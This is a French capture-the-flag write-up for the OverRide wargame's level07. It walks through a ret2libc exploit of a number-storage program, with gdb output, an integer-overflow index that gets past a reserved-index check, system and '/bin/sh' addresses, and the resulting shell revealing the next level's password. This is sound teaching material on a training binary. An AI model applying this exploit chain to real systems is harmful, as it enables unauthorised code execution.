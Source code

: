 ### level05

Dans cet exercice, le programme a un système de stockage d'int dans un buffer.
Il prend des commandes en instructions et des nombres accompagnés d'index pour les stocker.
Le programme efface les arguments du main ainsi que les variables d'environnement.
Nous allons donc nous tourner vers un ret2libc.

Pour cela, nous devons commencer par trouver l'eip et le modifier.

On cherche l'adresse du buffer data pour calculer par la suite l'index du tableau qui correspond à eip.
On sait qu'il est envoyé en paramètre à store_number, c'est là que l'on va le chercher :

```bash
level07@OverRide:~$ gdb -q level07 
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b store_number 
Breakpoint 1 at 0x8048636
(gdb) r
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store

Breakpoint 1, 0x08048636 in store_number ()
(gdb) x $ebp+0x8
0xffffd520:	0xffffd544
```

L'adresse du premier élément du tableau est : 0xffffd544

Maintenant, on cherche l'adresse d'eip :

```bash
level07@OverRide:~$ gdb -q level07 
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebp at 0xffffd708, eip at 0xffffd70c
```

On trouve eip = 0xffffd70c

L'index d'eip dans le tableau data est donc : 0xffffd70c - 0xffffd544 = 456 / 4 = 114

Malheureusement, 114 est un multiple de 3 et on ne peut pas utiliser directement ces derniers en index :

```C
    if (!(index % 3) || number >> 0x18 != 0xb7) {
        puts(" *** ERROR! ***");
        puts("   This index is reserved for wil!");
        puts(" *** ERROR! ***");
        return 1;
    }
```

Or lors du stockage du nombre, le programme effectue : ``data[index << 2] = number;``
Cela signifie que comme dans l'exercice bonus1 de rainfall, on peut chercher un nombre qui va overflow et donner 114.
Pour cela, on reprend le même script et en lui donnant 456 on obtient : `1073741938`

Démonstration :

```bash
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 24
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 42
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 42
 Completed read command successfully
```

Cela nous donne l'index à utiliser pour rediriger le flux d'exécution du programme.
Maintenant, comme dans l'exercice 4, on va chercher l'adresse de system et celle de la string "/bin/sh" :

```bash
level07@OverRide:~$ gdb -q level07 
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) i proc map
process 2188
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

system : 0xf7e6aed0 = 4159090384
/bin/sh : 0xf7f897ec = 4160264172

On va utiliser leurs valeurs en décimal pour les entrer dans data.
On store d'abord system en 114 avec l'index 1073741938 puis 2 entrées plus loin on stocke /bin/sh et enfin on quit :

```bash
store
4159090384
1073741938
store
4160264172
116
quit
```

On les copie dans un fichier dans tmp qu'on exécute comme suit :

```bash
level07@OverRide:~$ cat /tmp/commands - | ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
